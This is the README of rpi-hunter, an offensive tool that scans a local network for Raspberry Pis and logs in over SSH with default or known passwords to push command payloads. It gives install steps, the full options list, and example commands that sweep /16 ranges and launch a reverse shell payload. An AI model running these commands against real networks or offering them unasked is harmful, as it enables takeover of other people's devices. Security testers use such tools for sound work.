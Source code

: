 # rpi-hunter
* Automate discovering and dropping payloads on LAN Raspberry Pi's via ssh
* Or, the honest title: Automating sshpass for command delivery.


![alt text](https://github.com/BusesCanFly/rpi-hunter/blob/master/screenshot.png "Who doesn't love ASCII art?")

Rpi-hunter is  useful when there are multiple Raspberry Pi's on your LAN with default or known credentials, in order to automate sending commands/payloads to them.

# GUIDE:

## Installation

1. Install dependencies: `sudo pip install -U argparse termcolor` and `sudo apt -y install arp-scan tshark sshpass`
2. Download rpi-hunter: `git clone https://github.com/BusesCanFly/rpi-hunter`
3. Navigate to rpi-hunter: `cd ./rpi-hunter`
4. Make rpi-hunter.py executable: `chmod +x rpi-hunter.py`
* One line variant: `sudo pip install -U argparse termcolor && sudo apt -y install arp-scan tshark sshpass && git clone https://github.com/BusesCanFly/rpi-hunter && cd ./rpi-hunter && chmod +x rpi-hunter.py`

## Usage

Check out this sweet ![video](https://www.youtube.com/watch?v=qApJyIkDYvQ) and the accompanying [write-up](https://null-byte.wonderhowto.com/how-to/discover-attack-raspberry-pis-using-default-credentials-with-rpi-hunter-0193855/) made by the people over at NullByte!


	* Note: For the new people, I made a few updates to rpi-hunter to fix some bugs and add some more features :) Running the command `./rpi-hunter.py` will automatically scan your whole local network and run the `whoami` command on any raspberry pi's it finds

```
usage: rpi-hunter.py [-h] [--list] [--no-scan] [-r IP_RANGE] [-f IP_LIST]
                     [-c CREDS] [--payload PAYLOAD] [-H HOST] [-P PORT]
                     [--safe] [-q]

optional arguments:
  -h, --help         show this help message and exit
  --list             List available payloads
  --no-scan          Disable ARP scanning
  -r IP_RANGE        IP range to scan
  -f IP_LIST         IP list to use (Default ./scan/RPI_list)
  -u UNAME           Username to use when ssh'ing
  -c CREDS           Password to use when ssh'ing
  --payload PAYLOAD  (Name of, or raw) Payload [ex. reverse_shell or 'whoami']
  -H HOST            (If using reverse_shell payload) Host for reverse shell
  -P PORT            (If using reverse_shell payload) Port for reverse shell
  --safe             Print sshpass command, but don't execute it
  -q                 Don't print banner
```

* Run `./rpi-hunter.py --list` to see avalible payloads.
* Payloads can be specified by the payload name from `--list` or as raw input
    * ex. `--payload reverse_shell` or `--payload [your cli command here]`

* Example usage: 
	* `./rpi-hunter.py -r 192.168.0.0/16 --payload reverse_shell -H 127.0.0.1 -P 1337`
	* `./rpi-hunter.py -r 192.168.2.0/16 -c lamepassword --payload "ls -lah \~"`

## Disclaimer
## The standard internet fun disclaimer applies. Don't commit crimes, be responsible.

## I am in no way responsible for anything and everything you do with rpi-hunter.

